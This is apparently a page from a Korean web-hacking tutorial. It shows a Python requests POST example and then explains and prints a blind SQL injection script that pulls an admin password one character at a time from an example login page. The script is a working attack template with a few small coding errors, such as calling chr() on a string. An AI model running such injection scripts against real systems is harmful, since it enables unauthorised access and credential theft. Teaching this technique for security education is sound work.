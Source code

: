 Figure6 requests 모듈 POST 예제 코드

```python
import requests

url = 'https://dreamhack.io/'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'

}
data = {
    'test': 1,
}

for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

## Blind SQL Injection 공격 스크립트 작성
앞서 다룬 예제에서 Blind SQL Injection 을 시도한다고 가정합니다
공격하기에 앞서 아스키 범위 중 이용자가 입력할 수 있는 모든 문자의 범위를 지정해야 합니다

예를 들어 비밀번호의 경우 알파벳과 숫자 그리고 특수 문자로 이뤄집니다
이는 아스키 범위로 나타내면 32 부터 126 까지 모든 문자입니다

위를 고려해 작성한 스크립트는 Figure7 과 같습니다
코드를 살펴보면 비밀번호에 포함될 수 있는 문자를 string 모듈을 사용해 생성하고 한 바이트씩 모든 문자를 비교하는 반복문을 작성합니다

반복문 실행 중에 반환 결과가 참일 경우에 페이지에 표시되는 Login success 문자열을 찾고 해당 결과를 반환한 문자를 passowrd 변수에 저장합니다

반복문을 마치면 admin 계정의 비밀번호를 알아낼 수 있습니다

Figure7 Blind SQL Injection 공격 스크립트

```python
#!/usr/bin/python3
import requests
import string

url = 'http://example.com/login' # example URL
params = {
    'uid': '',
    'upw': ''
}

tc = string.ascii_letters + string.digits + string.punctuation # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''

for idx in range(0, 20):
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```

